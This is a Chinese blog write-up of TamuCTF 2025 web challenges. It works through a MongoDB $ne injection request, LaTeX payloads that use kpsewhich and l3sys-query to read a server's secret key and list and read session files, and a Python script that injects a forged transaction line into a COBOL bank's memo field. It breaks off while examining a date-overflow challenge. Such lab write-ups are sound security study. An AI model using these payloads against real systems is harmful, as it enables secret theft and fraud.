+++
title = "TamuCTF2025(web全)"
slug = "tamuctf2025-web-all"
description = "奇奇怪怪的"
date = "2025-03-29T09:31:22"
lastmod = "2025-03-29T09:31:22"
image = ""
license = ""
categories = ["赛题"]
tags = ["Nosql"]
+++

首发于先知社区 https://xz.aliyun.com/news/17519

## Aggie Bookstore(160 solves)

这里的代码，对于我这个AI小子来说非常难看，但是看代码我们就不着急，慢慢一句一句的搞懂

```python
from flask import Flask, request, render_template, jsonify
from pymongo import MongoClient
import re

app = Flask(__name__)

client = MongoClient("mongodb://localhost:27017/")
db = client['aggie_bookstore']
books_collection = db['books']

def sanitize(input_str: str) -> str:
    return re.sub(r'[^a-zA-Z0-9\s]', '', input_str)

@app.route('/')
def index():
    return render_template('index.html', books=None)

@app.route('/search', methods=['GET', 'POST'])
def search():
    query = {"$and": []}
    books = []

    if request.method == 'GET':
        title = request.args.get('title', '').strip()
        author = request.args.get('author', '').strip()

        title_clean = sanitize(title)
        author_clean = sanitize(author)

        if title_clean:
            query["$and"].append({"title": {"$eq": title_clean}})  

        if author_clean:
            query["$and"].append({"author": {"$eq": author_clean}}) 

        if query["$and"]:
            books = list(books_collection.find(query))


        return render_template('index.html', books=books)

    elif request.method == 'POST':
        if request.content_type == 'application/json':
            try:
                data = request.get_json(force=True)

                title = data.get("title")
                author = data.get("author")
                if isinstance(title, str):
                    title = sanitize(title)
                    query["$and"].append({"title": title})
                elif isinstance(title, dict):
                    query["$and"].append({"title": title})

                if isinstance(author, str):
                    author = sanitize(author)
                    query["$and"].append({"author": author})
                elif isinstance(author, dict):
                    query["$and"].append({"author": author})

                if query["$and"]:
                    books = list(books_collection.find(query))
                    return jsonify([
                        {"title": b.get("title"), "author": b.get("author")} for b in books
                    ])

                return jsonify({"error": "Empty query"}), 400

            except Exception as e:
                return jsonify({"error": str(e)}), 500

        return jsonify({"error": "Unsupported Content-Type"}), 400
    
if __name__ == "__main__":
    app.run("0.0.0.0", 8000)

```

首先看到是`mongodb`，并且过滤函数`sanitize`，过滤特殊字符，仅保留字母、数字、空格，`/index`什么东西都没有`/search`是一个数据库的查询，`$and` 是 MongoDB 的操作符，表示 **同时满足所有条件**（类似 SQL 的 `AND`），在`/search`的GET传参把所有的特殊字符过滤了，所以除了Unicode啥的基本不考虑了，不过这个路由开了POST，并且解析json，`$eq` 是 MongoDB 的等于”操作符（类似 SQL 的 `=`）。

```python
if query["$and"]:
    books = list(books_collection.find(query))
else:
    books = [] 
```

进行查询，看完代码之后很明显的Nosql注入，冲

```http
POST /search HTTP/1.1
Host: aggie-bookstore.tamuctf.com
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Sec-Fetch-User: ?1
Referer: https://aggie-bookstore.tamuctf.com/search?title=test&author=test
Priority: u=0, i
Connection: close
Content-Type: application/json
Content-Length: 22

{"title": {"$ne": ""}}
```

得到`FLAG{nosql_n0_pr0bl3m}`

## Impossible(108 solves)

先把游戏保存下来，访问`/impossible_ctf.swf`然后**JPEXS Free Flash Decompiler**用这个工具进行分析，这里面没有牵扯地址的问题，不然就是逆向了，用exe的启动方式打开


这个和web关系真不大

## Transparency(99 solves)

这个解题思路更像是渗透，



题目意思已经很明确了，就是说每个人可以创造私域，其中有自己的文档，当我选择创建新文档的时候发现什么事情都没有发生，回显为

> New document creation is currently disabled following a request from law enforcement.

那flag能在哪里呢，只能在之前创建的私域里面了，那我们需要去查域名[https查询域名](https://crt.sh/)

```
https://tve987yv.transparency.cybr.club/
```

访问就是flag

## Research(7 solves)

题目说明了五分钟重启一次，所以我们现在本地搭建一下docker，先把多余容器删了，再启动

```
docker stop 27bea68fe303 && docker rm 27bea68fe303 && docker rmi 0fa340091225

docker build -t my_php_nginx_app .
docker run -d -p 8080:80 --name my_php_nginx_app my_php_nginx_app
```

发现docker拉不下来，额，慢慢看代码吧，首先看`editor/editor.js`，

```js
import { EditorState } from '@codemirror/state';
import { EditorView, lineNumbers, keymap } from '@codemirror/view';
import { defaultKeymap, historyKeymap, insertTab, history } from '@codemirror/commands';
import { StreamLanguage, indentOnInput } from '@codemirror/language';
import { closeBrackets, closeBracketsKeymap } from '@codemirror/autocomplete';
import { stex } from '@codemirror/legacy-modes/mode/stex';
import { dracula } from '@uiw/codemirror-theme-dracula';

function createEditorState(initialContent) {
    let extensions = [
        dracula,
        EditorView.lineWrapping,
        lineNumbers(),
        indentOnInput(),
        history(),
        closeBrackets(),
        StreamLanguage.define(stex),
        keymap.of([
            { key: 'Tab', run: insertTab },
            ...defaultKeymap,
            ...historyKeymap,
            ...closeBracketsKeymap
        ])
    ];

    return EditorState.create({
        doc: initialContent,
        extensions
    });
}

function createEditorView(state, parent) {
    return new EditorView({ state, parent });
}

export { createEditorState, createEditorView };
```

这里写的是编辑器的东西，也就是网页的那个框框的语法之类的，但是其中有个问题，就是引入了LaTeX语法支持(旧版模式)`@codirror/legacy-modes/mode/stex`

```php
/*compile.php*/
<?php
require_once 'vendor/autoload.php';
require_once 'helper.php';

use Ramsey\Uuid\Uuid;

function return_pdf($pdf) {
    header('Content-Type: application/pdf');
    header('Content-Disposition: inline; filename="paper.pdf"');
    echo $pdf;
    exit;
}

init_session();

$compUuid = Uuid::uuid4()->toString();
$sessUuid = decrypt_text($_SESSION['uuid'], $serverKey);
$key = decrypt_text($_SESSION['key'], $serverKey);
$latex = decrypt_text($_SESSION['latex'], $serverKey);
$dir = "/var/tmp/$compUuid";

chdir('/tmp');
if (
    file_exists("$sessUuid.tex.enc") && 
    file_exists("$sessUuid.text.enc") &&
    decrypt_text("$sessUuid.tex.enc", $key) == $latex
) {
    return_pdf(decrypt_file("$sessUuid.pdf.enc", $key));
}

exec("mkdir $dir");
$texFile = fopen("$dir/paper.tex", 'w');
if ($texFile) {
    fwrite($texFile, $latex);
    fclose($texFile);
}

exec("pdflatex -halt-on-error -output-directory $dir $dir/paper.tex", $output, $returnCode);
if ($returnCode !== 0) {
    http_response_code(400);
    echo 'Compilation failed.';
    exit;
}

encrypt_file("$dir/paper.pdf", "$sessUuid.pdf.enc", $key);
encrypt_file("$dir/paper.tex", "$sessUuid.tex.enc", $key);
exec("rm -rf $dir");
return_pdf(decrypt_file("$sessUuid.pdf.enc", $key));
?>
```

1.**解密输入** → 2. **检查缓存** → 3. **无缓存时编译 LaTeX** → 4. **缓存结果并 PDF**。将我们输入的内容放进tmp里面然后通过PDF打印出来

```php
/*helper.php*/
<?php
require_once 'vendor/autoload.php';

use Ramsey\Uuid\Uuid;

$serverKey = getenv('SERVER_KEY');

function encrypt_file($inputPath, $outputPath, $key) {
    exec("openssl enc -aes-256-ctr -salt -pbkdf2 -in $inputPath -out $outputPath -pass pass:$key");
}

function decrypt_file($path, $key) {
    return shell_exec("openssl enc -d -aes-256-ctr -pbkdf2 -in $path -out /dev/stdout -pass pass:$key");
}

function encrypt_text($plaintext, $key) {
    $cipher = 'aes-256-ctr';
    $iv = random_bytes(openssl_cipher_iv_length($cipher));
    $ciphertext = openssl_encrypt($plaintext, $cipher, $key, OPENSSL_RAW_DATA, $iv);
    return bin2hex($iv . $ciphertext);
}

function decrypt_text($enctext, $key) {
    $cipher = 'aes-256-ctr';
    $data = hex2bin($enctext);
    $ivLength = openssl_cipher_iv_length($cipher);
    $iv = substr($data, 0, $ivLength);
    $ciphertext = substr($data, $ivLength);
    return openssl_decrypt($ciphertext, $cipher, $key, OPENSSL_RAW_DATA, $iv);
}

function init_session() {
    global $serverKey;
    session_start();

    if (!isset($_SESSION['uuid'])) {
        $uuid = Uuid::uuid4()->toString();
        $_SESSION['uuid'] = encrypt_text($uuid, $serverKey);
    }
    if (!isset($_SESSION['key'])) {
        $key = bin2hex(random_bytes(32));
        $_SESSION['key'] = encrypt_text($key, $serverKey);
    }
    if (!isset($_SESSION['latex'])) {
        $latex = file_get_contents('template.tex');
        $_SESSION['latex'] = encrypt_text($latex, $serverKey);
    }
}
?>
```

进行一个会话加密，并且我们得知`SERVER_KEY`在环境变量中，查看

```php
/*index.php*/
<?php
require_once 'helper.php';

init_session();
$latex = decrypt_text($_SESSION['latex'], $serverKey);
?>
```

检测session

```js
<script>
            async function compile() {
                const data = new URLSearchParams();
                data.append('latex', view.state.doc.toString());
                
                await fetch("/update.php", {
                    method: "POST",
                    headers: {"Content-Type": "application/x-www-form-urlencoded"},
                    body: data.toString()
                });

                let iframe = document.getElementById("result");
                iframe.contentWindow.location.reload();
            }

            const initialState = cm6.createEditorState(<?= json_encode($latex) ?>);
            const view = cm6.createEditorView(initialState, document.getElementById("editor"));

            document.addEventListener('keydown', function(e) {
                if (e.ctrlKey && e.key === 's') {
                    e.preventDefault();
                    compile();
                }
            });
        </script>
```

默认加载 `compile.php`来编译生成PDF，最后看看

```php
/*update.php*/
<?php
require_once 'helper.php';

init_session();

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (empty($_POST['latex'])) {
        http_response_code(400);
        echo 'Bad Request: Missing LaTeX.';
        exit;
    }

    $_SESSION['latex'] = encrypt_text($_POST['latex'], $serverKey);
}
?>
```

看完了所有代码发现是`--no-shell-escape`，就是不允许执行命令，但是这些命令是允许的

```latex
shell_escape_commands = \
bibtex,bibtex8,\
extractbb,\
gregorio,\
kpsewhich,\
l3sys-query,\
latexminted,\
makeindex,\
memoize-extract.pl,\
memoize-extract.py,\
repstopdf,\
r-mpost,\
texosquery-jre8,\
```

`bibtex` 和 `bibtex8`：用于处理 LaTeX 文档中的引用和参考文献。

`extractbb`：用于提取图形的边界框。

`gregorio`：与 Gregorian 调式相关的工具，通常用于音乐排版。

`kpsewhich`：一个非常常见的 LaTeX 工具，用于查找文件路径，可以用于读取环境变量和系统信息。

`l3sys-query`：用于获取系统信息的工具，在某些情况下可以用来列出系统文件或目录。

`latexminted`：用于处理 `minted` 宏包的工具，支持高亮代码。

`makeindex`：用于处理索引的工具。

`memoize-extract.pl` 和 `memoize-extract.py`：可能是自定义的脚本，用于提取缓存或存储的文件。

`repstopdf`：一个将图像文件转换为 PDF 格式的工具。

`r-mpost`：可能是与 LaTeX 的元后处理相关的工具。

`texosquery-jre8`：与 Java 相关的工具，可能用于查询 LaTeX 环境的设置或路径。

有用的只有读取环境变量和列目录，我们先查看SERVER_KEY

```latex
\documentclass{article}
\usepackage{catchfile}
\begin{document}

\CatchFileDef{\key}{|kpsewhich -expand-var=$SERVER_KEY}{}
The key is: \key

\end{document}
```

得到以下内容



```
The key is: 3c8ea83acb09113c8074e33639d2e76517982ade78ca3683f4a46b456bd623da
```

```latex
\documentclass{article}
\usepackage{catchfile}
\usepackage{verbatim}
\begin{document}

\verbatiminput{|l3sys-query ls --sort d}
\end{document}
```

可以得到当前目录的文件信息，

```
./sess_9e1ae23eeff86c6d4bb3a02f57efc3ab
./sess_dfd8e7498c59b317211ad2f7ea8c1a0c
./d1ff57e0-9f5f-4521-9909-1c635c3ddca9.pdf.enc
./d1ff57e0-9f5f-4521-9909-1c635c3ddca9.tex.enc
./sess_643fb224f021bb019dc5ea80e19a7cc1
./925ebc41-19c8-41cb-831f-4cda7dc9d365.pdf.enc
./925ebc41-19c8-41cb-831f-4cda7dc9d365.tex.enc
./sess_aa74cb226521a799aab422e412f22a40
```

但是用处不大，现在我们根本不知道怎么去获得flag，后面查到可以利用`input`和`attachfile`读取文件

```latex
\documentclass{article}
\begin{document}

\input{./sess_6afed1c55d206558beb1174d929bed91}
\input{./sess_62c82309abb8bc56ccb314d153ee4bfa}

\end{document}
```

但是`attachfile`是插入内容，所以这里并不适用，不过还是写一下怎么用的

```latex
\documentclass{article}
\usepackage{attachfile}
\begin{document}

\attachfile{./sess_a4c53297477c46a4bcfda34c03b9b99e}

\end{document}
```

获取到了

```
uuid—s:104:”af5fa90124b49374cc8a5252a4296d7eebf78c54e89253143eef29df75cbc6f1acca0fb004a92b003
```

但是这些都没有任何的作用，我们可以注意到文件中是通过session进行检验的，所以可以尝试把所有`sess_id`自己套上就这样获得了flag，弯弯真是多



## Modern Banking(7 solves)

```sh
#!/bin/sh

port=$PORT

/usr/sbin/nginx
rm -f /var/run/fcgiwrap.socket
nohup /usr/sbin/fcgiwrap -f -s unix:/var/run/fcgiwrap.socket &
sleep 1
chmod a+rw /var/run/fcgiwrap.socket
chmod -R a+rx /var/www

while true; do
    echo "Port: $port"
    curl -s "localhost:$port?page=register" --data-raw "action=register&username=administrator&password=$PASS" >/dev/null
    cookie="$(curl -v "localhost:$port?page=login" --data-raw "action=login&username=administrator&password=$PASS" 2>&1 | grep Set-Cookie | cut -d' ' -f3)"
    account="$(curl "localhost:$port?page=home" -b "$cookie" | grep "<tr><td>" | head -n1 | cut -d'>' -f3)"
    if [ -z "$account" ]; then
        curl -s "localhost:$port?page=manage" -b "$cookie" --data-raw "action=new" >/dev/null
    fi
    curl -s "localhost:$port?page=admin" -b "$cookie" --data-raw "action=refresh&account=1&secret=$SECRET" >/dev/null
    curl -s "localhost:$port?page=batch" -b "$cookie" --data-raw "action=batch&secret=$SECRET"
    sleep 20
done
```

看到了用户名，并且发现这是个cob应用，这个代码直接从来没有见过，所以都是让AI来帮我看，发现如果是管理员就可以给指定账户转足够的钱去购买flag，卡着了没做出来，后面再看题目的时候发现出题人偷偷把题目改了，现在每个人可以进行用户的管理，最多创建8个用户



还是来看看代码，在VSOCDE下载一个COBOL插件就可以看代码了，看到路由部分的时候发现



登录然后访问`?page=admin`发现

```html
<html>
<!--
<h3>Your accounts ( 1
)</h3><p><table><tr><th>Account</th><th>Balance</th><td></td></tr>
<tr><td>339984317737
</td><td> $999999999999999999.99
</td></tr>
</table></p>
-->
```

也就是说339984317737用户有足够多的钱来购买flag，草草的看完了代码，想到了两种方式，第一种刷新出来这个用户，用它买flag，第二种成为admin，通过注入`banlance`的手法打钱给账户，

```cobol
016410   MOVE "action" to Datatarget
016420   PERFORM 100-Parse-Data
016430   IF Datadone = 1 AND Dataval = "refresh"
016440     MOVE "account" to Datatarget
016450     PERFORM 100-Parse-Data
016460
016470     IF Datadone = 1 AND Dataval > 0 AND Dataval <=
016500       AccountCount
016510       MOVE Dataval TO AccountInd
016520       MOVE Account IN AccountList (AccountInd) TO Account OF
016530       AccountRecord
016540       PERFORM 104-DB-GetAccount
016550
016560       MOVE 999999999999999999.99 TO Balance
016570       OPEN I-O ACCOUNTS
016600         REWRITE AccountRecord
016610       CLOSE ACCOUNTS
016620     END-IF
016630   END-IF
```

看到代码发现



也就是说momo也会注入到数据中，那我们换行不就可以用那个巨额账号的钱转出来了嘛，但是写金额的时候有个问题就是代码中写到

```cobol
05 Balance PIC 9(18)V99 VALUE 0.
```

余额格式为 20 位数，并且COBOL 通常使用固定长度字段来表示数据，注册用户之后的一键脚本

```python
import requests

# Target server URL
#url = "http://localhost:8888"

url = "https://modern-banking.tamuctf.com"

# Attacker's credentials (register first if needed)
username = "baozongwi"
password = "baozongwi"

# Login to get session cookie
session = requests.Session()
login_data = {
    "action": "login",
    "username": username,
    "password": password
}
response = session.post(f"{url}/?page=login", data=login_data)


# Get admin account
response = session.get(f"{url}/?page=admin")
account_line = [line for line in response.text.split('\n') if '<tr><td>' in line][0]
admin_account = account_line.split('<td>')[1].split('<')[0].strip()
print('admin_account', admin_account)


# Create, get our account
session.post(f"{url}/?page=manage", data={"action": "new"})

response = session.get(f"{url}/?page=home")
account_line = [line for line in response.text.split('\n') if '<tr><td>' in line][0]
attacker_account = account_line.split('<td>')[1].split('<')[0].strip()
print('attacker_account', attacker_account)


# Inject malicious transaction
linesep = "%0A"
credit = "00000000000100000000"
record = f"{admin_account} {attacker_account} {credit} A"

def cobol_read(x, l):
    return record[x-1 : x-1+l]

src = cobol_read(1, 12)
dst = cobol_read(14, 12)
credit = cobol_read(27, 20)
memo = cobol_read(48, 110)

print(record)
print(src)
print(dst)
print(credit)
print(memo)

# transact_data = {
#     "action": "send",
#     "send_account": "1",
#     "receive_account": attacker_account,
#     "amount": "1",
#     "memo": f"hi"
# }

transact_data=f'action=send&send_account=1&receive_account={attacker_account}&amount=1&memo=A{linesep}{record}'

print(transact_data)
response = session.post(f"{url}/?page=transact",
    data=transact_data.encode(),
    headers={'Content-Type': 'application/x-www-form-urlencoded'})
print(response)
print(response.text)

# wait for batch processing (every 20 seconds)
```

再登录一下发现就可以成功买flag了，而这问题我不知道为什么会这样，为什么会行一行的去处理，看到代码的最开始



## Forward to the Past(53 solves)

```c
#include <stdio.h>
#include <time.h>
#include <stdbool.h>
#include <stdint.h>

// External database submission API
extern void submit_registration(int32_t timestamp);

bool validate_future_date(const struct tm *input_date);
void print_banner(void);
void print_help(void);

int main() {
    struct tm date_input = {0};
    time_t current_time;
    time(&current_time);

    print_banner();

    while (1) {
        printf("\nOptions:\n");
        printf("1. Submit travel registration\n");
        printf("2. View help\n");
        printf("3. Exit\n");
        printf("Choose an option: ");

        int choice;
        scanf("%d", &choice);
        getchar();

        switch (choice) {
            case 1: {
                printf("\nEnter travel date (YYYY-MM-DD): ");
                if (scanf("%d-%d-%d", &date_input.tm_year, &date_input.tm_mon, &date_input.tm_mday) != 3) {
                    printf("Invalid date format\n");
                    while (getchar() != '\n');
                    continue;
                }

                // Normalize input
                date_input.tm_year -= 1900;
                date_input.tm_mon -= 1;
                date_input.tm_hour = 12;
                date_input.tm_min = date_input.tm_sec = 0;
                date_input.tm_isdst = -1;

                if (!validate_future_date(&date_input)) {
                    printf("\nDate must be in the future!\n");
                    continue;
                }

                // Submit to database (file not provided)
                int32_t time = mktime(&date_input);
                submit_registration(time);

                break;
            }

            case 2:
                print_help();
                break;

            case 3:
                printf("\nExiting system\n");
                return 0;

            default:
                printf("\nInvalid option\n");
        }
    }
}

bool validate_future_date(const struct tm *input_date) {
    time_t input_time = mktime((struct tm *)input_date);
    time_t current_time;
    time(&current_time);
    return input_time > current_time;
}

void print_banner(void) {
    printf("\n=== University Travel Registration System ===\n");
    printf("NOTICE: All student travel must be registered\n");
    printf("        at least 72 hours in advance\n");
}

void print_help(void) {
    printf("\nSystem accepts dates in YYYY-MM-DD format\n");
    printf("Travel must be registered before departure\n");
}
```

主要问题就是这里



不让提交过去的时间，很明显有溢出漏洞，但是溢出了又能怎么样呢

```
{ printf "1\n-2147481949-3-21\n"; } | openssl s_client -connect tamuctf.com:443 -servername tamuctf_forward-to-the-past -quiet
过了，无flag
{ printf "1\n-9223372036854775809-3-21\n"; } | openssl s_client -connect tamuctf.com:443 -servername tamuctf_forward-to-the-past -quiet
没过，无flag
```

总觉得晕头转向，重新读一下代码

```c
extern void submit_registration(int32_t timestamp);
```

